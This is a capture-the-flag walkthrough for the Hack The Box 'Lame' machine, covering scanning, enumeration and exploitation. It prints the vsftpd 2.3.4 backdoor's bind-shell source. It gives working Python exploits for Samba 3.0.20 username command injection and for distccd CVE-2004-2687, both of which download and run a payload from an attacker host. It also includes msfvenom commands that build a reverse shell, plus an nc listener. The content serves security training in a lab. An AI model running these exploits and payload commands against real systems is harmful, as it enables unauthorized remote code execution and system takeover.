







# [Lame](https://app.hackthebox.eu/machines/1)

Start with an `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.3 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS --script "default,safe" -p $tcpports -oA tcp --open -Pn -sV 10.10.10.3 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.3
# UDP quick scan
sudo nmap -sU -F --open -Pn -sV 10.10.10.3
```

The quick TCP scan returns the following:



The FTP service with anonymous login is interesting. Try connecting:

```bash
ftp 10.10.10.3
anonymous
whatever
ls
```


Looks like there is no directory listing? Trying to upload files with `put` also does not work... Next enumerate the SMB service:

```bash
ip=10.10.10.3
for share in $(smbclient -N -L //$ip | grep Disk | sed 's/^[ \t]*//g' | cut -d ' ' -f 1); 
do 
  echo "-- \\\\$ip\\$share --";
  smbclient -N \\\\$ip\\$share -c 'ls;quit'; 
done
```

However, no shares are open? A manual connection returns the following error:

```
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Next look at service versions for exploits. Here is what is known so far:

- port 21 - `vsftpd 2.3.4`
- port 22 - `OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)`
- port 445 - `Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)`

Searching for these versions leads a few interesting results:

```bash
searchsploit vsftpd 2.3.4
searchsploit OpenSSH 4.7
searchsploit samba 3.0.20
```



Of these, exploit numbers 17491, 45001, and 16320 look interesting. First is 17491, so copy them all over:

```bash
searchsploit -m 17491
searchsploit -m 45001
searchsploit -m 16320
```

Here is the description:

> This module exploits a malicious backdoor that was added to the VSFTPD download
> archive. This backdoor was introdcued into the vsftpd-2.3.4.tar.gz archive between
> June 30th 2011 and July 1st 2011 according to the most recent information
> available. This backdoor was removed on July 3rd 2011.

The code has the following URLs:

- http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
- http://pastebin.com/AetT9sS5

This blog has the following description:

> The backdoor payload is interesting. In response to a :) smiley face in the FTP username, a TCP callback shell is attempted.

Seems simple enough. The pastebin URL has the following C code that was added/removed to make the backdoor:

```
--- vsftpd-2.3.4/str.c  2011-06-30 15:52:38.000000000 +0200
+++ vsftpd-2.3.4.4players/str.c 2008-12-17 06:54:16.000000000 +0100
     {
       return 1;
     }
-    else if((p_str->p_buf[i]==0x3a)
-    && (p_str->p_buf[i+1]==0x29))
-    {
-      vsf_sysutil_extra();
-    }
   }
   return 0;
 }
--- vsftpd-2.3.4/sysdeputil.c   2011-06-30 15:58:00.000000000 +0200
+++ vsftpd-2.3.4.4players/sysdeputil.c  2010-03-26 04:25:33.000000000 +0100
-int
-vsf_sysutil_extra(void)
-{
-  int fd, rfd;
-  struct sockaddr_in sa;
-  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
-  exit(1); 
-  memset(&sa, 0, sizeof(sa));
-  sa.sin_family = AF_INET;
-  sa.sin_port = htons(6200);
-  sa.sin_addr.s_addr = INADDR_ANY;
-  if((bind(fd,(struct sockaddr *)&sa,
-  sizeof(struct sockaddr))) < 0) exit(1);
-  if((listen(fd, 100)) == -1) exit(1);
-  for(;;)
-  { 
-    rfd = accept(fd, 0, 0);
-    close(0); close(1); close(2);
-    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
-    execl("/bin/sh","sh",(char *)0); 
-  } 
-}
```

This is easy to test with the following:

```bash
# try and trigger the backdoor:
nc -v 10.10.10.3 21
USER testing:)
PASS password
# try and connect to the backdoor:
nc -v 10.10.10.3 6200
```

However, this does not give an easy win. Next is exploit 45001. However looking at its source sees that it requires valid credentials for the SFTP transfer. next is exploit 16320. It has the following code:

```ruby
def exploit

    connect
    
    # lol?
    username = "/=`nohup " + payload.encoded + "`"
    begin
            simple.client.negotiate(false)
            simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
    rescue ::Timeout::Error, XCEPT::LoginError
            # nothing, it either worked or it didn't ;)
    end

    handler
end
```

This seems simple enough to test and convert to the following Python:

- **NOTE**: This payload assumes the client has `wget` installed

```Python
from smb.SMBConnection import SMBConnection

payload = "wget http://10.10.14.17:8080/bubba.elf -P /tmp && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &"
username = "/=`nohup " + payload + "`"
conn = SMBConnection(username, '', '', '')
conn.connect('10.10.10.3', 445, timeout=5)
```

This will require installation of the following libraries:

- https://pysmb.readthedocs.io/en/latest/api/smb_SMBConnection.html

```bash
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python3 get-pip.py
python3 -m pip install pysmb
```

Before running the script, generate and host the payload:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
# wait for the callback
nc -nvlp 6969
```

Now run the script and catch the shell:



Woah! That is already root? That was too easy (lol the name lame). Try harder to find another way... The full `nmap` TCP scan should have finished and has another port & service version in it:

- port 3632 - `distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))`

A quick Google for `distccd v1 exploit` returns the following `nmap` script for CVE-2004-2687:

- https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html

Test the script with the following:

```bash
sudo nmap -Pn -p 3632 10.10.10.3 --script="distcc-*" --script-args="distcc-exec.cmd='id'"
```



Swell! That is another exploit. The code for the `nmap` script has the following:

```
local socket = nmap.new_socket()
if ( not(socket:connect(host, port)) ) then
  return fail("Failed to connect to distcc server")
end

local cmds = {
  "DIST00000001",
  ("ARGC00000008ARGV00000002shARGV00000002-cARGV%08.8xsh -c " ..
  "'(%s)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002" ..
  "-oARGV00000006main.o"):format(10 + #arg_cmd, arg_cmd),
  "DOTI00000001A\n",
}

for _, cmd in ipairs(cmds) do
  if ( not(socket:send(cmd)) ) then
    return fail("Failed to send data to distcc server")
  end
end

-- Command could have lots of output, need to cut it off somewhere. 4096 should be enough.
local status, data = socket:receive_buf(match.pattern_limit("DOTO00000000", 4096), false)

if ( status ) then
  local output = data:match("SOUT%w%w%w%w%w%w%w%w(.*)")
  if (output and #output > 0) then
    distcc_vuln.extra_info = stdnse.format_output(true, output)
    distcc_vuln.state = vulns.STATE.EXPLOIT
    return report:make_output(distcc_vuln)
  end
end
```

This can be converted into the following Python:

```python
import socket

# had issues trying to run them all at once with && ... so instead run them one-by-one
payloads = [
  "wget http://10.10.14.17:8080/bubba.elf -P /tmp",
  "chmod +x /tmp/bubba.elf",
  "/tmp/bubba.elf &",
]
cmd = ''.join([
  "DIST00000001",
  "ARGC00000008",   # command has 8 arguments in total
    "ARGV00000002", # argv[0] is 2 bytes long
    "sh",           # argv[0]
    "ARGV00000002", # argv[1] is 2 bytes long
    "-c",           # argv[1]
    "ARGV{0:08x}",  # argv[2] is the length of the payload 
    "{1}",          # argv[2] is the payload 
    "ARGV00000001", # argv[3] is 1 byte long
    "#",            # argv[3] is the command escape 
    "ARGV00000002",
    "-c",
    "ARGV00000006",
    "main.c",
    "ARGV00000002",
    "-o",
    "ARGV00000006",
    "main.o",
  "DOTI00000001A",
])
for c in payloads:
  data = cmd.format(len(c), c)
  print(f'[*] sending {data}')
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect(('10.10.10.3', 3632))
  s.send(data.encode())
  print(s.recv(4096).decode())
  s.close()
```

Running this script generates the following output:



And this provides another shell:



`user.txt` can be found with this account:

```bash
find / -iname user.txt -exec ls -lad {} \; 2>/dev/null
```



Further enumeration shows that this machine is just a modified metasploitable2. The following guide walks through further exploitation of services not open but are still running on the system. Using port fowarding and SSH, it is possible to expose these services and escalate privledges from `daemon `to `root`.

- https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/

